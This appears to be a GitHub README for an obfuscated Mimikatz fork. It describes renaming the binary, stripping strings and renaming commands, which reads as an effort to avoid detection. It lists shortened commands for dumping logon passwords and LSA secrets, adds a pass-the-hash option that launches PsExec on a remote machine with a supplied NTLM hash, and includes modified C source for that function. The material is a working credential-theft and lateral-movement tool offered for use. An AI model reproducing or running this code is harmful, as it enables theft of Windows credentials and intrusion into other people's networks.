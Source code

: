 # Updates to the Mimikatz bin

The original mimikatz version used can be found at: <https://github.com/gentilkiwi/mimikatz>

Modifications:

* Mimikatz was renamed to DvKGMmGn.exe
* Renamed all common files/functions.
* Removed descriptive strings, and other strings as seen.
* Stripped out unused functionality
* Changed icon

## Command Changes

* `privilege::debug` is now  `pr::d`
* `sekurlsa` - `slsa`
* `lsadump` - `lsdu`
* `logonpasswords` - `lop`
* `privilege` - `pr`
* `token` - `mrio`
* `elevate` - `1up`
* pass the hash is now called with `slsa::htp`
* logonpasswords is called with `slsa::lop`
* lsadump::lsa is now `lsdu::go`  (`/inject` is now `/ynot`) (`/patch` is now `/pooch`)
* `exit` was changed to `quit`

## Custom PSExec Commands

* Adding `/remotepc:<pcname>` to pass-the-hash is the first argument to initiate psexec and is always required. (you
do not need to add backslashes `\\`)
* The path to psexec is always required: `/pexe:C:\Path\to\PSExec.exe`
* If you want to execute psexec's `-c` command then you use: `/prun:c:\path\to\executable.exe`
* Output console text to a file: `/out:C:\outfile.txt` (adds `> c:\outfile.txt` to the psexec command)
* Use `/sys:1` to add psexec `-s` (run as system).

Full mimikatz command executing psexec -c:

```
.\mimikatz.exe "slsa::htp /user:sbusby /ntlm:xxx /domain:. /remotepc:1.2.3.4 /pexe:C:\psexec.exe /sys:1 /prun:C:\Windows\System32\calc.exe /out:C:\outfile.txt" "quit"
```

Resulting command created/executed by mimikatz:

```
C:\psexec.exe \\1.2.3.4 -accepteula -s -c C:\Windows\System32\calc.exe > C:\outfile.txt
```

##### Executing example commands

Executing an LSA Dump:
`mimikatz.exe "privilege::d lsdu::go /ynot"`

## Adjustments made to mimikatz PTH function

The pass-the-hash function was modified to accept additional arguments since
mimikatz PTH did not allow for arguments as a part of the PTH command.

```
NTSTATUS kuhl_m_sekurlsa_pth(int argc, wchar_t * argv[])
{
 BYTE ntlm[LM_NTLM_HASH_LENGTH], aes128key[AES_128_KEY_LENGTH], aes256key[AES_256_KEY_LENGTH];
 TOKEN_STATISTICS tokenStats;
 SEKURLSA_PTH_DATA data = {&tokenStats.AuthenticationId, NULL, NULL, NULL, FALSE};
 PWCHAR szUser, szDomain, szRun, szNTLM, szAes128, szAes256, szLuid, szRemotePC, szpsSys, szpsPath, szpsRunPath, szOutPath, szpsCopyRunPath = NULL;
 DWORD dwNeededSize;
 HANDLE hToken, hNewToken;
 PROCESS_INFORMATION processInfos;
 BOOL isImpersonate;
 WCHAR result[1024];   // array to hold the result.
 PCWCHAR dblBack = L"\\\\";
 PCWCHAR space = L" ";

 if(kull_m_string_args_byName(argc, argv, L"luid", &szLuid, NULL))
 {
  tokenStats.AuthenticationId.HighPart = 0; // because I never saw it != 0
  tokenStats.AuthenticationId.LowPart = wcstoul(szLuid, NULL, 0);
 }
 else
 {
  if(kull_m_string_args_byName(argc, argv, L"user", &szUser, NULL))
  {
   if(kull_m_string_args_byName(argc, argv, L"domain", &szDomain, NULL))
   {
    isImpersonate = kull_m_string_args_byName(argc, argv, L"impersonate", NULL, NULL);
#pragma warning(push)
#pragma warning(disable:4996)

    if (kull_m_string_args_byName(argc, argv, L"pexe", &szpsPath, NULL)) //psexec path
    {
     if (kull_m_string_args_byName(argc, argv, L"remotepc", &szRemotePC, NULL)) //remote pc path
     {
      if (kull_m_string_args_byName(argc, argv, L"prun", &szpsRunPath, NULL)) //file to execute
      {
       PCWCHAR cmd2 = L" -accepteula -c ";

       wcscpy(result, szpsPath); // copy string one into the result.
       wcscat(result, space);  // space
       wcscat(result, dblBack);  // append string two to the result.
       wcscat(result, szRemotePC);
       if (kull_m_string_args_byName(argc, argv, L"sys", &szpsSys, NULL)) //-s (system)
       {
        wcscat(result, L" -s ");
       }
       wcscat(result, cmd2);
       wcscat(result, szpsRunPath);

       if (kull_m_string_args_byName(argc, argv, L"out", &szOutPath, NULL)) //output to file
       {
        PCWCHAR fmt = L" > ";
        wcscat(result, fmt);
        wcscat(result, szOutPath);
       }
       kull_m_string_args_byName(argc, argv, L"zz", &szRun, isImpersonate ? _wpgmptr : result);
      }
     }
    }
    else
    {
     kull_m_string_args_byName(argc, argv, L"run", &szRun, isImpersonate ? _wpgmptr : L"cmd.exe");
    }

```
